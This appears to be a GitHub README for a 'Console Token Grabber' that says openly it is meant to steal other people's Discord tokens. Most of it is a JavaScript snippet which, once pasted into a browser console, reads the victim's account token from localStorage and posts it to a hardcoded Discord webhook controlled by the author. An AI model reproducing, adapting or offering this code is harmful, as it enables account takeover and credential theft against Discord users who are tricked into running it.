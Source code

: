 # Basic Console Token Grabber
**It's a simple "Console Token Grabber" that you can use to steal other people's Discord Token.**

<!--<h3 align="center">
![image](https://cdn.discordapp.com/attachments/941755353035579422/951879632544747540/Unbenannt-1.png)
</h3> -->

![image](https://cdn.discordapp.com/attachments/941755353035579422/951879632544747540/Unbenannt-1.png)

```js
(function() {
    window.dispatchEvent(new Event('beforeunload'));
    var x = new XMLHttpRequest;
    x.open("POST", 'https://discord.com/api/webhooks/947563711281909842/-wxZY0FRrTeVt3GeEoEux_A35j6tdYWaqn4AFVa1E1AH99GmTj6NRYUwWgatDbGhnqJL'), x.setRequestHeader("Content-type", "application/json");
    var y = {
        username: "Eternity Script",
        avatar_url: "https://cdn.discordapp.com/attachments/941755353035579422/947642580521340928/1.png",
        content: "@everyone New skid",
        embeds: [{
            color: "696969",
            description: `Token: ${window.open().localStorage.token}`,
        }]
    };

    x.send(JSON.stringify(y));
    w.close()
}());```
